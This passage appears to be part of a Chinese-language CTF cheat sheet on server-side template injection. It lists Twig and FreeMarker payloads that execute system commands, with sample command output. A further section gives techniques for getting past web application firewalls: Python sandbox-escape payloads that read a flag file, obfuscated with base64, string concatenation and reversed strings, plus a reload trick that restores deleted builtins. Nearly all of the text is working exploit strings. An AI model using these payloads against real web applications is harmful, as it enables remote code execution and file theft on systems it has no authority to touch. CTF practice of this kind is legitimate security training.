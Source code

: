 5，twig  (PHP)

```bash
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

---
6，FreeMarker (PHP)

```bash
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7)
```


---
## 七：WAF绕过

Base64：

```bash
().__class__.__bases__[0].__subclasses__()[40]('r','ZmxhZy50eHQ='.decode('base64')).read()
相当于:
().__class__.__bases__[0].__subclasses__()[40]('r','flag.txt')).read()

```

---
字符串拼接：

+号：

```bash
().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()
  
相当于
().__class__.__bases__[0].__subclasses__()[40]('r','flag.txt')).read()

```

[::-1] 取反：

```bash
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
```

---

Reload：

```bash
del __builtins__.__dict__['__import__'] # __import__ is the function called by the import statement
 
del __builtins__.__dict__['eval'] # evaluating code could be dangerous
del __builtins__.__dict__['execfile'] # likewise for executing the contents of a file
del __builtins__.__dict__['input'] # Getting user input and evaluating it might be dangerous

```
当没有过滤reload函数时，我们可以重载builtins
```bash
 reload(__builtins__)
```
